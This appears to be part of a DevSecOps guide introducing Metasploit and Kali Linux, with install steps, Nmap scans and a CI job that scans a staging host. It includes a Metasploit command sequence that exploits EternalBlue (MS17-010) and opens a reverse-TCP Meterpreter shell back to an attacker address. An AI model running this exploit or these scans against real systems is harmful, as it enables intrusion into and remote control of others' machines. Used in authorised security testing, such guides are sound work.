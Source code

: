 ##### Metasploit
- **Overview**: An open-source penetration testing framework for exploiting vulnerabilities and managing attack sessions.
- **Features**:
  - Exploits: Prebuilt modules for known CVEs.
  - Payloads: Code to execute post-exploitation (e.g., Meterpreter).
  - Auxiliary tools: Scanning, fuzzing.
- **Setup**:
  1. Install: `sudo apt install metasploit-framework` (Kali Linux).
  2. Launch: `msfconsole`.
- **Example (Exploit EternalBlue - MS17-010)**:
  ```bash
  use exploit/windows/smb/ms17_010_eternalblue
  set RHOSTS 192.168.1.10
  set PAYLOAD windows/meterpreter/reverse_tcp
  set LHOST 192.168.1.100
  exploit
  ```
  - Outcome: Gain a Meterpreter shell on a vulnerable Windows host.
- **DevSecOps Use**:
  - Test containerized apps in staging:
    ```bash
    docker run --rm -it metasploitframework/metasploit-framework ./msfconsole
    ```
  - Automate scans in CI/CD to simulate attacks.

##### Kali Linux
- **Overview**: A Linux distribution tailored for security researchers and penetration testers, preloaded with hacking tools.
- **Key Tools**:
  - **Nmap**: Network scanning (`nmap -sV 192.168.1.0/24`).
  - **Aircrack-ng**: Wi-Fi cracking.
  - **Hydra**: Password brute-forcing.
- **Setup**:
  1. Install: Download ISO from `kali.org` and boot via VM/USB.
  2. Update: `sudo apt update && apt upgrade`.
- **Example (Network Recon)**:
  ```bash
  nmap -A -p- 192.168.1.10
  ```
  - Output: Open ports, services, and OS details.
- **DevSecOps Use**:
  - Run Kali in a CI/CD pipeline to scan staging environments:
    ```yaml
    # GitLab CI
    pentest:
      image: kalilinux/kali-rolling
      script:
        - apt update && apt install -y nmap
        - nmap -oA scan staging.example.com
      artifacts:
        paths: [scan.xml]
    ```

